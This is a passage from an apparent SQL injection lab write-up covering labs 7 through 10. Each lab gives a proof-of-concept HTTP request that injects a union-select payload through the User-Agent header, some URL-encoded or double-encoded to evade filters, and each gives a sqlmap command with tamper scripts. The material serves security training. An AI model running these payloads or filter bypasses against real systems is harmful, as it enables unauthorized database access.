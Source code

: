 SQLMap automation:
```bash
sqlmap -u 'http://7.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/fill.py --banner
```

### SQLi 8
Simple URL encoding.

PoC:
```bash
GET / HTTP/1.1
Host: 8.sqli.labs
User-Agent: %61%61%61%61%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%3b%20%2d%2d%20%2d

SQLMap Automation:

sqlmap -u 'http://8.sqli.labs/' -p user-agent --tamper=charencode --technique=U --banner
```

### SQLi 9
Double encoding.

PoC:
```bash
GET / HTTP/1.1
Host: 9.sqli.labs
User-Agent: %25%36%31%25%36%31%25%36%31%25%36%31%25%32%37%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%34%30%25%34%30%25%37%36%25%36%35%25%37%32%25%37%33%25%36%39%25%36%66%25%36%65%25%33%62%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64

SQLMap Automation:

sqlmap -u 'http://9.sqli.labs/' -p user-agent --tamper=chardoubleencode --technique=U --banner
```

### SQLi 10
This labs combines reserver keyword filtering with an injection in a function.

PoC:
```bash
GET / HTTP/1.1
Host: 10.sqli.labs
User-Agent: ') uZEROFILLnZEROFILLiZEROFILLoZEROFILLn sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt 'PoC'; -- -

SQLMap Automation:

sqlmap -u 'http://10.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/fill.py --prefix="notexistant')" --suffix="; -- " --union-char=els --banner
```
